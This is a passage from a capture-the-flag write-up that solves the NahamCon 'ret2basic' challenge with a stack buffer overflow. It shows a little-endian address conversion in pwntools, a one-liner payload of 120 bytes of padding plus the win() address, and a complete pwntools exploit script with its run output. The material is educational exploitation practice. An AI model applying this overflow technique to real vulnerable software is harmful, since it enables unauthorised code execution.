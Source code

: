 Let's test it out, first we will convert address `0x401215` in little endian format, we can do it using pwntools in python.

```shell
cfx:  ~/Documents/nahamcon/binary
→ python3
Python 3.8.6 (default, Sep 25 2020, 09:36:53)
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> win = p64(0x401215)
>>> win
b'\x15\x12@\x00\x00\x00\x00\x00'
```

Now let's send this address in one liner python:

```shell
cfx:  ~/Documents/nahamcon/binary
→ (python -c "print 'A'*120 + '\x15\x12@\x00\x00\x00\x00\x00'") | ./ret2basic
Can you overflow this?: Failed to open the flag file.
```

Bingo ! This time we got `Failed to open the flag file.` which confirms we successfully called `win()` function, although we were not able to read the flag since we called the service locally. Let's write a exploit using pwntools which will call the remote service of this challenge.

### Local Exploit

```python
from pwn import *

elf = ELF("./ret2basic")
win = p64(elf.symbols.win)

payload = b"A"*120 + win

def main():

    p = elf.process()
    p.recvuntil("Can you overflow this?:")
    p.sendline(payload)
    p.interactive()

if __name__ == "__main__":
    main()
```
One of the advantage of using pwntools is that we don't need to hardcode any address, we can use `elf.symbols.win` which will fetch the address of `win()` from the elf binary specified.

Running the exploit:

```shell
cfx:  ~/Documents/nahamcon/binary
→ python3 local.py
[*] '/root/Documents/nahamcon/binary/ret2basic'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/root/Documents/nahamcon/binary/ret2basic': pid 76643
[*] Switching to interactive mode
[*] Process '/root/Documents/nahamcon/binary/ret2basic' stopped with exit code 1 (pid 76643)
Failed to open the flag file.
[*] Got EOF while reading in interactive
```
